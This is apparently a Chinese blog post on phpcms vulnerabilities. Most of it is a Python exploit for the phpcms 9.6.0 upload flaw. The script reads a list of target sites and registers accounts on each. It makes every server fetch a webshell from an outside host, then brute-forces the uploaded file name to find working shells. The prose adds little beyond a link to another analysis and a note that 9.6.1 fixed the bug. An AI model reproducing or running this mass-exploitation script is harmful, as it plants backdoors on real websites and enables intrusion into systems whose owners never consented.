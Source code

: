### 前言
粗浅的分析下phpcms的几个版本的漏洞，附上exp。

### phpcms9.6.0

#### upload

漏洞分析就看这个吧，大佬分析的真的是全面。

[https://www.hackersb.cn/hacker/219.html](https://www.hackersb.cn/hacker/219.html)

这个漏洞产生原因主要是对download函数的过滤不严，在对远程连接地址的过滤可绕过，在9.6.1中已经修复。

##### EXP_upload
网上公布的大部分脚本都是根据页面回显提取shell地址，但是我本地测试的时候并没有爆mysql的错误把地址回显出来，所以只能尝试爆破。
	#!/usr/bin/env python
	# coding: utf-8
	#Authon:phyb0x
	#phpcms9.6.0 upload

	import requests
	import time 
	import re

	result = []
	def savewebshell(file,list):
		s = '\n'.join(list)
		with open(file,'a') as output:
			output.write(s)

	def poc():
		fp = open("url.txt","r")
		alllines = fp.readlines()
		fp.close()
		for eachline in alllines:
			eachline = eachline.strip()
			host = eachline
			try:
				url ="{}index.php?m=member&c=index&a=register&siteid=1".format(host)
				shell = ''
				data = {
					'siteid':'1',
					'modelid':'11',
					'username':'t3esht123',
					'password':'t3esht123',
					'email':'tdehst@qq.com',
					'info[content]':'<img src=http://www.blogsir.com.cn/lj_ctf/shell.txt?.php#.jpg>',
					'dosubmit':'1'}
	
				nowtime = time.strftime('%Y%m%d%I%M%S')
				nowtime = nowtime[:13]
				req = requests.post(url=url,data=data)
				path = 'uploadfile/' + time.strftime("%Y") +'/'+ time.strftime("%m%d") + '/'
				for i in range(0000,9999):
					filename = nowtime + str(i) +'.php'
					shell = host + path + filename
					req = requests.get(url=shell)
					if req.status_code == 200:
						global result
						result.append(shell)
						print('shell:',shell)
						break
					else:
						print('NO BUG')